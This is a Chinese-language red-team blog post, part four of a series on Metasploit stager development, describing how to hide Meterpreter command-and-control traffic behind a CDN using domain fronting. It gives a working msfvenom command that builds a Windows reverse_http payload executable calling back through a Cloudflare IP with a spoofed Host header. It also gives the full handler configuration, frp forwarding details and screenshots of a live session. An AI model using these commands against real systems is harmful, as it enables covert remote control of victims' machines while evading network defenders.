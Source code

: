 ```yaml
---
title: "msf stagers开发不完全指北(四)- msf 中使用域前置技术隐藏流量"
slug: msf-stagers-develop-4
date: 2020-07-17 18:01:00
tags:
- msf
- 工具
- 红队
categories:
- 开发
---
```


前几篇都是说了下如何采用不同的语言开发 reverse_tcp 第二阶段，接下来将慢慢分析 reverse_http，这篇文章并不会围绕 stagers 进行讲解，这篇文章只是半埋上我之前挖的一个坑，关于域前置技术如何在 msf 中进行应用。

<!--more-->

## 域前置技术介绍


域前置技术（Domain-Fronting）顾名思义，把域名放在前面，流量的前面，那么我们应该如何做到这件事情，这个一般就是利用各大 cdn 服务了。


cdn 技术我不用做过多介绍，相信大家给自己的网站上 cdn 都会上，简略来说原理的话，在域名注册商那里把 ns 记录，也就是 dns 解析服务器指向到你选择的 cdn 服务商，然后 cdn 就可以接管你的域名解析了，通过不同的缓存分流策略，把流量经过他的服务器后再转发给我们自己，也就是 cdn 后面的真实ip我们是不容易找到的。


那么应用到 C2 上，我们 C2 服务器也可以挂在 cdn 后面，流量通过 cdn 转发回来。


具体更为详细的介绍可以参见 [红队行动之鱼叉攻击-倾旋](https://payloads.online/archivers/2020-02-05/1#domain-fronting)


## 基础配置


首先不管怎样你需要有一个服务器，以及一个加了 cdn 的域名执行你服务器


这里我假设我们持有的域名为 test.akkuman.com，域名配好 cdn 指向的服务器是 1.1.1.1


这里你是把服务器架在 msf 上面还是内网穿透打通端口，这个看自己喜好


我这里是 msf 位于其他地方 2.2.2.2，然后 2.2.2.2 的 5555 端口通过 frp 映射到 1.1.1.1 的 80 端口上。


5555 端口是我们待会 msf 监听的端口，80 端口是因为访问域名，http 协议，访问80。


因为这些流量会通过 cdn 先转发到我们主机上的 80 端口，然后 80 端口上的流量会通过 frp 处理后送到我们本机监听的 5555 端口上。


## 生成 msf payload


基础一些配置做好之后，我们可以生成 payload 了。


首先我们需要得到一个 cdn 的 ip，因为 cdn 是依靠 http header 中的 Host 头进行流量转发的，所以我们只需要 ping 一下我们加了 cdn 的域名即可获得一个 ip，这里我是用的 cloudflare，获得的一个 ip 为 172.67.207.124


```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=172.67.207.124 LPORT=80 HttpHostHeader=test.akkuman.com -f exe -o ~/payload.exe
```


这里 LHOST 为我们获取的 cdn ip，因为是 http 协议的 payload，访问域名是访问 80 端口，LPORT 我们设置为 80


HttpHostHeader 选项为这个生成的 payload 使用 http 协议回连到 cdn ip 时 http header 所使用的 Host 头，还记得我们刚才说的 cdn 如何识别域名进行流量转发吗，这个就主要是为了 cdn 能够把流量转回到我们自己的服务器


## 创建监听器


msf 在监听中有一些配置需要说明一下


```bash
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
payload => windows/meterpreter/reverse_http
msf5 exploit(multi/handler) > set lhost 172.67.207.124
lhost => 172.67.207.124
msf5 exploit(multi/handler) > set lport 80
lport => 80
msf5 exploit(multi/handler) > set HttpHostHeader test.akkuman.com
HttpHostHeader => test.akkuman.com
msf5 exploit(multi/handler) > set OverrideRequestHost true
OverrideRequestHost => true
msf5 exploit(multi/handler) > set ReverseListenerBindAddress 127.0.0.1
ReverseListenerBindAddress => 127.0.0.1
msf5 exploit(multi/handler) > set ReverseListenerBindPort 5555
ReverseListenerBindPort => 5555
msf5 exploit(multi/handler) > run
```


- 首先 lhost 为给 payload 返回第二阶段载荷时填入的 ip 地址，即第二阶段会回连到这个 ip


- lport 为给 payload 返回第二阶段载荷时填入的 port，即第二阶段会回连到这个端口


- HttpHostHeader 前面说过，是 payload 回连到这个 ip 和 port 时在 http header 中填入的 Host 头


- OverrideRequestHost 这个选项需要设置为 true，主要是因为 msf 的历史原因，msf 默认是使用传入请求 http header 中的 Host 字段来作为第二阶段的配置，也就是第二阶段会采用建立连接时传入请求的 Host，这种默认行为在大多数请求下没问题，具体可以自行测试，具体是需要 cdn 回连到我们真实 ip 时传递的域名是我们想要的，这个参数设置为 true 可以让 msf 忽略传入请求的 Host 头，而使用我们在 HttpHostHeader 中设置的


- ReverseListenerBindAddress 和 ReverseListenerBindPort 参数主要是因为我的环境问题，我是通过 frp 把 1.1.1.1:80 穿透到了本地 (2.2.2.2) 的 127.0.0.1:5555，如果你的 msf 直接在 1.1.1.1 上，那么 duck 不必这么做，直接监听 80 就好


ReverseListenerBindAddress 这个参数其实设置不设置都没关系，但是不设置的话会有个小报错，


```
[-] Handler failed to bind to 172.67.207.124:80
```


这是因为 handler 无法将 cdn 的 ip 绑定到LHOST，因为这个 ip 在我们服务器上不存在，绑定失败就会提示这个，然后继续绑定 0.0.0.0。如果想要在界面上不显示这个错误，需要设置 ReverseListenerBindAddress 为 0.0.0.0 或者 127.0.0.1 之类的


可以看到，当我们不设置 ReverseListenerBindAddress 和 ReverseListenerBindPort 时会出现上面的报错 `Handler failed to bind to 172.67.207.124:80`


也就是 handler 在本地上是希望监听 80 的，而 1.1.1.1:80 上面的流量是转发到我们服务器 (2.2.2.2) 本机的 5555 端口上的。


所以我们的监听程序实际上需要监听在 5555 端口上，所以需要设置 ReverseListenerBindPort 参数


上面的 lhost 和 lport 其实主要是为了第二阶段回送服务的。


## 实际效果


```
paylaod.exe <-> cdnip:80(Host: test.akkuman.com) <-> 1.1.1.1:80 <-> frp[1.1.1.1:7000<->2.2.2.2:随机端口] <-> 127.0.0.1:5555
```


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/f307ddbb192427e72e620228ede6a747..png)


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/02253a789ae1ae4a4bdaddd3a019d614..png)


可以看到不管是请求第二阶段还是后续的心跳包，都是有带上 Host 头，流经 cdn 服务器的，这样我们就达到了隐藏自身的效果


那么 msf 会话这边呢


![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/68c7066f12a652f6c55ce8f75b50e27f..png)



可以看到，也是可以正常使用的